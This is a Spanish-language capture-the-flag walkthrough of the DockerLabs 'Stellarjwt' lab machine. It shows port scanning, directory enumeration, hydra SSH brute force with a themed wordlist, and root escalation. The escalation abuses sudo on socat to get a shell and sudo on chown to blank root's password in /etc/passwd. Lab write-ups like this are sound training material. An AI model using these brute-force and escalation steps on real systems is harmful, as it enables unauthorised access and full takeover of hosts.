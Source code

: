 #MAQUINA #DOCKERLABS #FACIL 
#JWT 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Stellarjwt** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:33 CET
Initiating ARP Ping Scan at 17:33
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 17:33, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:33
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 17:33, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-10 17:33:06 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:33 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
|_  256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: NASA Hackeada
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:34 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
## HTTP (80)

Usamos **gobuster** para enumerar:

   ```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,png,jpg,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1905]
/universe             (Status: 301) [Size: 311] [--> http://172.17.0.2/universe/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Si nos metemos en universe y hacemos Ctrl + u, encontramos un token:

Usuario -> **neptuno**

Al revisar la web que hay en el puerto 80, vemos que hay una pregunta en la principal:

   ```bash
¿Qué astrónomo alemán descubrió Neptuno?
   ```
   
Creamos un diccionario con esto:
   ```bash
johann
gottfried
galle
Johann
Gottfried
Galle
   ```

# EXPLOTACION

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l neptuno -P contras  ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-10 17:40:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:1/p:6), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-10 17:40:41

```
**usuario : neptuno**
**contraseña: Gottfried**

# ESCALADA PRIVILEGIOS

Buscamos archivos en el directorio personal y hay una **.carta_a_la_NASA.txt** :
   ```bash
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
¿Quién fundó la NASA? -> Eisenhower

Por favor, necesito entrar!!
```

Usuario -> **nasa** (/etc/passwd):**Eisenhower**

Buscamos archivos con permisos SUDO:
   ```bash
nasa@c455fb384540:/home/neptuno$ sudo -l
Matching Defaults entries for nasa on c455fb384540:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on c455fb384540:
    (elite) NOPASSWD: /usr/bin/socat

```
Vemos **socat** con permisos SUDO :
   ```bash
nasa@c455fb384540:/home/neptuno$ sudo -u elite socat stdin exec:/bin/sh
2024/12/11 17:06:24 socat[146] W address is opened in read-write mode but only supports read-only
whoami
elite
```

YA ESTAMOS COMO ELITE.

Buscamos archivos con permisos SUDO:
   ```bash
sudo -l
Matching Defaults entries for elite on c455fb384540:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User elite may run the following commands on c455fb384540:
    (root) NOPASSWD: /usr/bin/chown

```

Vemos **chown** con permisos SUDO , cambiamos propietario a **/etc/passwd** y a **/etc** y ejecutamos script para quitarle la necesidad de ingresar contraseña al hacer **su root** :

   ```bash
   
sudo chown elite:elite /etc
sudo chown elite:elite /etc/passwd
cat script.sh 
#!/bin/sh

# Definir las variables
var1="root:x:0:0:root:/root:/bin/bash"
var2="root::0:0:root:/root:/bin/bash"

# Realizar la sustitución y escribir el resultado en un archivo temporal
sed "s#$var1#$var2#" /etc/passwd > passwd_tmp

# Reemplazar el archivo original con el archivo temporal
mv passwd_tmp /etc/passwd

nasa@c455fb384540:/home/neptuno$ su root
root@c455fb384540:/home/neptuno# whoami
root
root@c455fb384540:/home/neptuno#

```

**YA ESTAMOS COMO ROOT.**